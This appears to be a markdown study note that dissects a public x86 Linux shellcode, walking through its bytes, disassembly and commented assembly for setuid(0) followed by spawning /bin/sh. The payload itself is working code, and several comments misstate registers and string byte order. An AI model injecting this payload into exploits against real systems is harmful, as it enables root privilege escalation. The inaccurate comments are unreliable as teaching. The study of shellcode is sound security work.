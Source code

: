 ## Shellcode analysis case 1

----

#### Shellcode - Spawns a root shell on Linux : [source](https://www.tenouk.com/Bufferoverflowc/Bufferoverflow6.html) 
```
\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52
\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89
\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80

```
```
Dissassembly-
0:  31 c0                   xor    eax,eax
2:  89 c3                   mov    ebx,eax
4:  b0 17                   mov    al,0x17
6:  cd 80                   int    0x80
8:  31 d2                   xor    edx,edx
a:  52                      push   edx
b:  68 6e 2f 73 68          push   0x68732f6e
10: 68 2f 2f 62 69          push   0x69622f2f
15: 89 e3                   mov    ebx,esp
17: 52                      push   edx
18: 53                      push   ebx
19: 89 e1                   mov    ecx,esp
1b: 8d 42 0b                lea    eax,[edx+0xb]
1e: cd 80                   int    0x80 
```
Executing the setuid(0) syscall 0x17:

For executing setuid(0) all you need to do is 

```assembly
xor    eax,eax ; zero's out the eax register
mov    ebx,eax ; clears ebx register
mov    al,0x17 ; SysCall 0x17 (sys_setuid16)
int    0x80    ; Executes syscall
```
Spawning a /bin/sh shell breakdown-

Pushes the text "\bin\sh" onto the stack which spawns the sh shell,  all you need to do is clear out the registers and put /bin/sh in little endian format onto the stack.

```assembly
xor    edx,edx ; zero out edx
push   edx     ; pushes edx to the stack
; spawning the shell
push   0x68732f6e ; little endian hex code "n\sh"
push   0x69622f2f ; little endian hex code "\\bi"
mov    ebx,esp    ; puts the address of /bin/sh into edx from esp
```
Since using PUSH puts something on top of the stack, it ESP is pointing to it
we can utilize this and load the address of /bin/sh into ebx since its being pushed into ESP
```assembly
push   edx  ; pushing ebx to the stack
push   ebx  ; puts ebx on the stack
mov    ecx,esp  ; loading esp register into ecx
lea    eax,[edx+0xb] ;stores edx register + 11
int    0x80  ; interupt, starts it
```

## Commented /bin/sh Assembly
```assembly
global _start
section .data
_start:
        xor    eax,eax       ; zero's out the eax register
        mov    ebx,eax       ; clears ebx register
        mov    al,0x17       ; SysCall 0x17 (sys_setuid16)
        int    0x80          ; Executes syscall
        xor    edx,edx       ; zero out edx
        push   edx           ; pushes 0 to the stack
        push   0x68732f6e    ; little endian hex code "n\sh"
        push   0x69622f2f    ; little endian hex code "\\bi"
        mov    ebx,esp       ; ges /bin/sh address
        push   edx           ; pushing ebx to the stack
        push   ebx           ; puts ebx on the stack
        mov    ecx,esp       ; loading esp register into ecx
        lea    eax,[edx+0xb] ; stores edx register + 11
        int    0x80          ; interupt, starts it all
